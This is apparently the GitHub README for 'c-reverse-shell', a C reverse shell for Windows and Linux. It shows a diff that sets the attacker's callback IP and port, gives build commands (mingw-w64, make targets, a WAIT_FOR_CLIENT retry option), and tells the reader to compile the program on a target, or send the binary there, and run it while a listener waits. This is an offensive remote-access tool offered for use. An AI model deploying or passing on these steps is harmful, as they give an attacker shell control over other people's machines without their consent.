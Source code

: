 # c-reverse-shell

## Info

A reverse shell for Windows and Linux written in C.

## Dependencies

For Windows you will need `mingw-w64` compiler (the `.exe` binary is compiled in linux):
```sh
sudo apt install gcc-mingw-w64
```

## How to use

1. Clone repo:
```sh
git clone https://github.com/izenynn/c-reverse-shell.git
```

2. Change the `CLIENT_IP` and `CLIENT_PORT` in the file `reverse-shell.c` (lines 20 and 21):
```diff
 /* ================================================== */
 /* |      CHANGE THIS TO YOUR IP AND YOUR PORT      | */
 /* ================================================== */
-#define CLIENT_IP "0.0.0.0"
-#define CLIENT_PORT (int)0
+#define CLIENT_IP "XXX.XXX.XXX.XXX"
+#define CLIENT_PORT (int)XXXX
 /* ================================================== */
```


3. Compile for Linux and Windows with `make` (equivalent to `make all`):
```sh
make
```

4. And ✨ magic ✨ compile the program in your target, or just send the binary, and execute it, make sure your client is listening 😊.

Additionally you can compile with `WAIT_FOR_CLIENT` true, this will make the program loop until the connection to the client is established, instead of returning an error in the connection:
```sh
make WAIT_FOR_CLIENT=TRUE
```
*NOTE: this doen't work on windows, not sure why, but I'm sleepy, so maybe I fix it another day (or pull request if you fix it please 😊).*

Other `Makefile` rules:
- `make all`
- `make linux`
- `make windows`
- `make clean`
- `make re`

##
[![forthebadge](https://forthebadge.com/images/badges/made-with-c.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/thats-how-they-get-you.svg)](https://forthebadge.com)
